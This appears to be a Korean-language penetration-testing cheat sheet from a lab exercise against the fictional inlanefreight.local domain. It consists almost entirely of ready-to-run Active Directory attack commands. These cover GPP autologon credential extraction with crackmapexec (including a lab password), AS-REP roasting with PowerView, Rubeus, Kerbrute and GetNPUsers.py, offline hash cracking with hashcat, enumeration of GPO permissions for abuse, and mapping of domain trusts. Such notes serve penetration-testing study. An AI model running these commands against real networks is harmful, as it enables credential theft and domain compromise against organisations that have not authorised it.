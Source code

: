 ```
- 참고 도구 : https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Get-GPPAutologon.ps1<br/>
```crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 -M gpp_autologin```

<br/><br/>
## 8. ASREPRoasting

### Get-DomainUser를 사용하여 DONT_REQ_PREAUTH 값 열거
```Get-DomainUser -PreauthNotRequired | select samaccountname,userprincipalname,useraccountcontrol | fl```

### Rubeus를 사용하여 AS-REP Retrieving
```.\Rubeus.exe asreproast /user:mmorgan /nowrap /format:hashcat```

### Hashcat으로 오프라인에서 해시 크래킹
```hashcat -m 18200 ilfreight_asrep /usr/share/wordlists/rockyou.txt```

### Kerbrute를 사용하여 AS-REP Retrieving
```kerbrute userenum -d inlanefreight.local --dc 172.16.5.5 /opt/jsmith.txt```

### Kerberoast 사전 인증이 필요하지 않은 사용자 헌팅
```GetNPUsers.py INLANEFREIGHT.LOCAL/ -dc-ip 172.16.5.5 -no-pass -usersfile valid_ad_users```

<br/><br/>
## 9. Group Policy Object (GPO) Abuse
- 도구1 : https://github.com/Group3r/Group3r
- 도구2 : https://github.com/sense-of-security/ADRecon
- 도구3 : https://www.pingcastle.com/

### PowerView를 사용하여 GPO 이름 열거
```Get-DomainGPO |select displayname```

### 내장된 Cmdlet을 사용하여 GPO 이름 열거
```Get-GPO -All | Select DisplayName```

### 도메인 사용자 GPO 권한 열거
```
$sid=Convert-NameToSid "Domain Users"
Get-DomainGPO | Get-ObjectAcl | ?{$_.SecurityIdentifier -eq $sid}
```

### GPO GUID를 이름으로 변환
```Get-GPO -Guid 7CA9C789-14CE-46E3-A722-83F4097AF532```<br/>
- 참고 : https://github.com/FSecureLABS/SharpGPOAbuse

<br/><br/>
# Domain Trusts Primer

## 1. Trust Relationships 열거

### Get-ADTrust 사용하여 Trust Relationships 열거
```
Import-Module activedirectory
Get-ADTrust -Filter *
```

### Get-DomainTrust를 사용하여 기존 신뢰 확인
```Get-DomainTrust```

### Get-DomainTrustMapping 사용하여 신뢰 매핑
```
Import-Module .\PowerView.ps1
Get-DomainTrustMapping
```

### Get-DomainUser를 사용하여 자식 도메인의 사용자 확인
```Get-DomainUser -Domain LOGISTICS.INLANEFREIGHT.LOCAL | select SamAccountName```
```